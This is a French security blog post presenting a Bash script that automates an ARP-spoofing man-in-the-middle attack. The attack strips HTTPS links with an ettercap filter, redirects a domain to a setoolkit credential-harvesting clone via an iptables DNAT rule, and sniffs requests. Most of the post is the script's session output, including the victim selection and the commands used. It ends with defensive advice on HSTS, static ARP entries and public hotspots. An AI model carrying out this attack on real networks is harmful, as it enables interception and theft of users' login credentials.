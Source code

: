 ```yaml
---
layout: post
title:  "Phising d'un site web avec attaque MITM"
date:   2016-09-08
categories: mitm
---
```

Phising d'une page web avec une attaque MITM.
----------

Hi Everybody,

Je me suis dit qu'il était intéressant de partager avec vous un petit script **Bash** que j'ai créé pour automatiser une attaque MITM et rediriger vers une fausse page web que nous allons héberger ([https://github.com/phackt/Workshops/tree/master/mitm/phishing](https://github.com/phackt/Workshops/tree/master/mitm/phishing)). L'objectif est pour une attaque ciblée de rendre l'obtention des credentials la plus transparente possible. Cependant il n'existe pas de solution miracle, à chaque combat sa stratégie.  
  
Ici nous allons donc cibler un site possédant une page d'accueil non sécurisée (HTTP), permettant l'interception en clair des liens HTTPS et de les transformer en liens HTTP classiques. Certains outils comme [sslstrip](https://github.com/moxie0/sslstrip) permettent ce genre d'opérations, en éliminant le caching des pages et en traitant également les headers response **Location** lors des redirections. De notre coté nous utiliserons un simple filtre [ettercap](https://github.com/Ettercap/ettercap) que nous compilerons avec etterfilter.  
  
Pour petit rappel:  

 > L'attaque de l'homme du milieu ou man-in-the-middle attack (MITM) est une attaque qui a pour but d'intercepter les communications entre deux parties, sans que ni l'une ni l'autre ne puisse se douter que le canal de communication entre elles a été compromis.  
  
![Mitm]({{ site.url }}/public/images/mitm-phishing/owasp-man_in_the_middle.jpg)  
Cette attaque se base sur la corruption du cache ARP enregistrant les correspondances @IP <-> @MAC sur un réseau local. Vous regarderez les HotSpot et autres Wifi gratuits d'un autre oeil ;). Il existe plusieurs outils pour effectuer une [attaque MITM](https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/) et nous utiliserons Ettercap.  
  
Le site web a été falsifié grâce à l'outil [setoolkit](https://github.com/trustedsec/social-engineer-toolkit) (Social-Engineer Toolkit). Concernant la redirection du domaine, j'ai simplement effectué une règle iptables PREROUTING DNAT au lieu d'effectuer un DNS SPOOFING qui aurait demandé que le cache DNS soit vidé.   
  
Mais venons-en au cas pratique concernant l'exécution du script **phishing.ksh**:  
  
```
----------------------------------------------
   --==MITM attack with website phishing==--   
----------------------------------------------

[+] Flushing ip forwarding
[+] Flushing iptables

#HERE SET THE NAME OF THE LOG DIR THAT WILL BE CREATED
Name of 'Session'? (name of the folder that will be created with all the log files): test

#CHOOSE YOUR INTERFACE UP
[+] Discovering interfaces
lo:     state  UNKNOWN
eth0:   state  DOWN
wlan0:  state  UP
Please enter your interface: wlan0

#IF YOU WANNA CHANGE YOUR MAC ADDRESS (http://www.macvendors.com/)
Do you wanna spoof MAC @ ? [yYnN]: n

#TYPE THE DOMAIN THAT WILL BE REDIRECTED TO YOUR WEBSITE
Which domain do you wish to redirect ?: secure.domain.fr

#ASSUMING 192.168.1.99 IS THE MITM MACHINE LOCAL IP WITH APACHE RUNNING
[+] Setting up DNAT iptables rule
iptables -t nat -A PREROUTING -p tcp --dport 80 -d secure.domain.fr -j DNAT --to-destination 192.168.1.99:8080

#IF YOU WANNA RUN SETOOLKIT ( choose options 1) Social-Engineering -> 2) Website Attack Vectors -> 3) Credential Harvester Attack Method )
[+] Setting up website phishing
Do you wanna run setoolkit ? [yYnN]: n

[+] Starting apache2 service

#RUN NETDISCOVER IN ORDER TO ARPING THE SUBNET
[+] Net discovering
Do you wanna netdiscovering ? [yYnN]: y
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     01:12:23:34:45:56      1      42  Gateway
 192.168.1.100   12:23:34:45:56:67      2      84  Apple Macbook Pro

-- Active scan completed, 1 Hosts found.


[+] Routing information
Table de routage IP du noyau
Destination     Passerelle      Genmask         Indic Metric Ref    Use Iface
0.0.0.0         192.168.1.1     0.0.0.0         UG    600    0        0 wlan0
192.168.1.0     0.0.0.0         255.255.255.0   U     600    0        0 wlan0

#CHOOSE THE VICTIM
Enter target1 ip: 192.168.1.11
#CHOOSE THE SECOND MACHINE (DEFAULT IS GATEWAY)
Enter target2 ip [press enter for default gateway 192.168.1.1]: 

#LAUNCHING ETTERCAP WITH THE HTTPS STRIP ETTERCAP FILTER (https_strip.ef)
[+] Running MITM attack...

#IF YOU NEED TO LEGITIMATE AN ARP REPLY (IF GATEWAY IS A PRETENTIOUS YOUNG MADAM)
/!\ Please check poisoning is OK by typing 'P', then 'chk_poison'
Command for protected gateway: 
dhcping -c 192.168.1.100 -h 12:23:34:45:56:67 -s 192.168.1.1 -r -v

#SNIFFING HTTP REQUESTS
[+] Starting GET/POST logging...
urlsnarf: listening on wlan0 [tcp port 80 or port 8080 or port 3128]

#TAILING PHISHING WEBSITE HARVESTER FILE
[+] Looking for credentials...

[+] IMPORTANT...
After the job please close this script and clean up properly by hitting 'qQ'
```

Les outils MITM peuvent également forger dynamiquement un certificat pour interception des connexions TLS/SSL. Cependant ce dernier n'étant pas signé par une autorité de certification, un warning dans votre navigateur affichera que le certificat est non valide (assez discret sous Safari cependant)...  

![Certificat]({{ site.url }}/public/images/mitm-phishing/alerte-certificat.png)  

 > <span style="color: red">Cliquez sur 'Back to safety'!!</span>
  
Dans notre exemple, la connexion au site falsifié est non sécurisée (évitant les alertes de certificats). Donc vérifier toujours le cadenas vert dans la barre url et que votre connexion soit sécurisée, sinon COURREZZZZZ:runner::runner:!!!!. Nous voyons aussi l'importance du HSTS (Strict-Transport-Security) abordé dans les [précédents articles]({{ site.url }}/xss-cors-csrf-partie-3-cors-csrf#hsts) pour forcer les connexions HTTPS et bannir tout certificat non valide. Des méthodes de détection d'ARP spoofing existent, la plus contraignante étant l'ajout statique d'une correspondance dans la table ARP. Certains firewall (ex [Symantec](https://www.symantec.com/security_response/glossary/define.jsp?letter=a&word=anti-mac-spoofing)) empêchent les ARP Reply non légitimes. Réfléchissez donc deux fois avant de vous connecter à un HotSpot.
  
A bientôt et surtout...   

```
Keep the positive attitude ;) !
```
<br />
<br />
Références :  
[https://www.owasp.org/index.php/Man-in-the-middle_attack](https://www.owasp.org/index.php/Man-in-the-middle_attack)  
[https://www.information-security.fr/attaque-man-in-the-middle-via-arp-spoofing/](https://www.owasp.org/index.php/Man-in-the-middle_attack)